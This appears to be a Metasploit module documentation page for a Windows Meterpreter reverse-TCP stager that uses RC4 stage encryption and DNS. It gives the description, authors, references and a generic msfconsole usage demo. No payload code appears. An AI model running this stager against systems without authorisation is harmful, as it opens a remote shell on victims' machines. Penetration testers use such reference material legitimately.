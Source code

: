## Windows Meterpreter (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption DNS)

Inject the meterpreter server DLL via the Reflective Dll 
Injection payload (staged). Connect back to the attacker


## Module Name
payload/windows/meterpreter/reverse_tcp_rc4_dns

## Authors
* skape
* sf
* OJ Reeves
* hdm
* mihi
* RageLtMan


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/meterpreter/reverse_tcp_rc4_dns
msf payload(reverse_tcp_rc4_dns) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_rc4_dns) > set TARGET <target-id>
msf payload(reverse_tcp_rc4_dns) > show options
   ... show and set options ...
msf payload(reverse_tcp_rc4_dns) > run
```
    
    
